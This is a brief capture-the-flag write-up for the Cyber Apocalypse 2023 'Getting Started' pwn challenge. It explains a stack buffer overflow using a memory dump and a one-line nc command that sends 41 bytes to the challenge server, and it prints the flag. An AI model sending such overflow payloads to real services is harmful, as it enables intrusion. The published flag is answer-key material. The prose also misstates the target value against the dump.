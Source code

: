 # Cyber Apocalypse 2023

## Getting Started

> Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.
>
>  Author: N/A
>
> [`pwn_getting_started.zip`](pwn_getting_started.zip)

Tags: _pwn_

## Solution
The challenge walks us through the concept of buffer overflow. The goal is to overflow a buffer and change the value of a certain variable.

```
After we insert 4 "B"s, (the hex representation of B is 0x42), the stack layout looks like this:


      [Addr]       |      [Value]
-------------------+-------------------
0x00007ffc7eb62bc0 | 0x4242424241414141 <- Start of buffer
0x00007ffc7eb62bc8 | 0x0000000000000000
0x00007ffc7eb62bd0 | 0x0000000000000000
0x00007ffc7eb62bd8 | 0x0000000000000000
0x00007ffc7eb62be0 | 0x6969696969696969 <- Dummy value for alignment
0x00007ffc7eb62be8 | 0x00000000deadbeef <- Target to change
0x00007ffc7eb62bf0 | 0x00005653ac203800 <- Saved rbp
0x00007ffc7eb62bf8 | 0x00007fa0e6619c87 <- Saved return address
0x00007ffc7eb62c00 | 0x0000000000000001
0x00007ffc7eb62c08 | 0x00007ffc7eb62cd8
```

The code assumes the variable to have the value `0xdeafbeef`, writing more than 40 bytes the value will be overriden.

```python
python -c "print('A'*41)" | nc 165.232.108.200 32576
```

Flag `HTB{b0f_s33m5_3z_r1ght?}`